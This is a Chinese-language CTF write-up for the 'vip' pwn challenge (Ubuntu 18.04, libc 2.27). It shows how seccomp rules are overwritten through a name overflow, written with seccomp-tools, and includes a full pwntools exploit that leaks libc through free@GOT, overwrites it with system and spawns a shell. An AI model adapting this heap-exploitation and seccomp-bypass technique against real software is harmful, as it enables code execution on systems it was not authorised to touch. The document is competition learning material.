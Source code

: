 # vip

环境是`Ubuntu18.04`，libc是`2.27`

漏洞点很明显是在`edit`函数里，但是我们要绕过它的限制，才能输入我们想要输入的值，如果绕过的话后面的利用就极其的简单

然后程序还提供了一个`vip`的函数，然后输入`name`的时候存在溢出，可以覆盖`seccomp`的规则

这里推荐用 [seccomp-tools](https://github.com/david942j/seccomp-tools) 这个工具写规则，太好用了，tql

根据`seccomp-tools`的使用说明，我写了如下规则，
```asm
A = sys_number
A == openat ? next : ok
return ERRNO(0)
ok:
return ALLOW
```
绕过了那个限制，让`fd = open("/dev/urandom", 0);`返回了0，我以为这样就成功了，但是当我执行`system("/bin/sh")`的时候
```c
sh: error while loading shared libraries: /lib/x86_64-linux-gnu/tls/haswell/x86_64/libc.so.6: cannot read file data: Error 9
Done!

1.alloc
2.show
3.free
4.edit
5.exit
6.become vip

```

我发现不能简单的直接让`openat`返回0，这样`shell`也无法起，wtcl，后来看了tree学长的wp，只要限制下`openat`的`filename`参数就好了，orz

然后我就把规则改成了这样

```asm
A = sys_number
A == openat ? next : ok
A = args[1]
A == 0x000000000040207e ? next : ok
return ERRNO(0)
ok:
return ALLOW
```

`disasm`下是这样的

```shell
ruan@ubuntu:/mnt/hgfs/shared/byte/pwn/vip/vip$ seccomp-tools disasm rule
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x00 0x03 0x00000101  if (A != openat) goto 0005
 0002: 0x20 0x00 0x00 0x00000018  A = filename # openat(dfd, filename, flags, mode)
 0003: 0x15 0x00 0x01 0x0040207e  if (A != 0x40207e) goto 0005
 0004: 0x06 0x00 0x00 0x00050000  return ERRNO(0)
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW

```

最终exp如下

```python
from pwn import *

def cmd(command):
	p.recvuntil("Your choice: ")
	p.sendline(str(command))

def add(idx):
	cmd(1)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
	
	
def show(idx):
	cmd(2)
	p.recvuntil("Index: ")
	p.sendline(str(idx))

def dele(idx):
	cmd(3)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
	
def edit(idx,sz,content):
	cmd(4)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
	p.recvuntil("Size: ")
	p.sendline(str(sz))
	p.recvuntil("Content: ")
	p.send(content)

def vip(name):
	cmd(6)
	p.recvuntil("tell us your name:")
	p.send(name)

def main(host,port=9999):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./vip")
		gdb.attach(p,"b *0x00000000004014A8")
	rule = open('./rule',"rb").read()
	add(0)
	add(1)
	vip("r"*0x20+rule)
	dele(1)
	edit(0,0x68,"/bin/sh\x00"+"A"*0x50+p64(0x61)+p64(elf.got['free']))
	add(1)
	add(2)
	show(2)
	libc.address = u64(p.recv(6).ljust(8,'\x00'))-libc.symbols['free']
	info('libc : ' + hex(libc.address))
	edit(2,8,p64(libc.symbols['system']))
	dele(0)
	p.interactive()
	
if __name__ == "__main__":
	libc = ELF("./libc-2.27.so",checksec=False)
	elf = ELF("./vip",checksec=False)
	main(args['REMOTE'])
```
